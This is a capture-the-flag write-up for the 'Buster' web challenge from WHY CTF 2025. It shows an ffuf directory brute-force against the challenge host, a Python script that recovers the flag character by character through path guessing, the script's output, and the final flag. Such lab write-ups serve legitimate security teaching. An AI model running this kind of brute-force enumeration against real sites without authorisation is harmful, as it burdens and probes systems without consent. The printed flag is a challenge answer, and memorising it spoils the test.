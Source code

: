 ```yaml
---
name: Buster (2025)
event: WHY CTF 2025
category: Web
description: Writeup for Buster (Web) - WHY CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Buster

## Description

> Using dirbuster or any other brute-forcing tool isn't needed to solve the challenges of this CTF. Using these brute force tools will not help you at all, but it will result in a lot of unnecessary traffic and requests. This activity could interfere with the availability of the CTF systems and services, so please don’t do this. However, [this challenge](https://buster.ctf.zone) is the _only_ exception in the CTF. So, do your best dirbustering to solve it, and then never use that tool again.

## Solution

The challenge name and description \[strongly\] hints that we need to do some brute forcing of files/directories. Visiting the website confirms this..

![](images/0.PNG)

If we try to visit a non-existing page, e.g. `/admin` it says `Wrong way!`

You could use many tools, e.g. `gobuster` or `burp`. I'll use `ffuf` and check for PHP/JS file extensions, filtering out responses that contain the word "Wrong" (invalid)

{% code overflow="wrap" %}
```bash
ffuf -c -u https://buster.ctf.zone/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php,.js -fr Wrong

.htpasswd.php           [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 27ms]
.htpasswd.js            [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 29ms]
f                       [Status: 200, Size: 1932, Words: 527, Lines: 53, Duration: 25ms]
favicon.ico             [Status: 200, Size: 15406, Words: 24, Lines: 20, Duration: 28ms]
fla                     [Status: 200, Size: 1932, Words: 527, Lines: 53, Duration: 29ms]
flag                    [Status: 200, Size: 1932, Words: 527, Lines: 53, Duration: 31ms]
images                  [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 28ms]
server-status           [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 27ms]
```
{% endcode %}

Notice that we have `/f`, `/fla`, `/flag` all showing 200 OK with the same response length. If we try to access `/flag{` it is also a 200 OK, but `/flag}` is not.

What does that tell us? The flag _is_ the path! We can brute force each character (\[0-9a-f\]) until we reach a `}`.

I used ChatGPT to make a quick PoC. The server was super slow with lots of timeouts, so some logic was needed to repeat chars where needed.

{% code overflow="wrap" %}
```python
import requests
import string
import urllib3
from requests.exceptions import RequestException
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

BASE = "https://buster.ctf.zone/"
FLAG_START = "flag{"
charset = "abcdef" + string.digits + "}"
flag = FLAG_START
baseline_resp = requests.get(BASE + FLAG_START + "zzz", verify=False)
baseline_content = baseline_resp.content

pos = len(flag)  # start guessing at position after "flag{"

while not flag.endswith("}"):
    print(f"Current flag: {flag}")
    i = 0
    found = False
    while not found:
        guess = flag + charset[i]
        try:
            r = requests.get(BASE + guess, verify=False)
            if r.content != baseline_content:
                flag += charset[i]
                print(
                    f"[+] Found char '{charset[i]}' at position {pos} -> {flag}")
                pos += 1
                found = True
                break  # move to next character
            else:
                print(f"[-] Wrong char '{charset[i]}' at position {pos}")
            i += 1
        except RequestException:
            print(f"[!] Request failed for char '{charset[i]}', retrying...")
            continue
    else:
        print("[-] No matching char found, stopping.")
        break

print(f"[+] Final flag: {flag}")
```
{% endcode %}

We run the script and see it working as expected.

{% code overflow="wrap" %}
```bash
python poc.py

Current flag: flag{
[-] Wrong char 'a' at position 5
[-] Wrong char 'b' at position 5
[-] Wrong char 'c' at position 5
[+] Found char 'd' at position 5 -> flag{d
Current flag: flag{d
[-] Wrong char 'a' at position 6
[-] Wrong char 'b' at position 6
[-] Wrong char 'c' at position 6
[-] Wrong char 'd' at position 6
[+] Found char 'e' at position 6 -> flag{de
Current flag: flag{de
[-] Wrong char 'a' at position 7
[-] Wrong char 'b' at position 7
[+] Found char 'c' at position 7 -> flag{dec
Current flag: flag{dec
[+] Found char 'a' at position 8 -> flag{deca
Current flag: flag{deca
```
{% endcode %}

Let it finish and we'll receive the flag.

{% code overflow="wrap" %}
```bash
[+] Found char '}' at position 37 -> flag{deca3b962fc316a6d69a7e0c2c33c7fa}
[+] Final flag: flag{deca3b962fc316a6d69a7e0c2c33c7fa}
```
{% endcode %}

Flag: `flag{deca3b962fc316a6d69a7e0c2c33c7fa}`
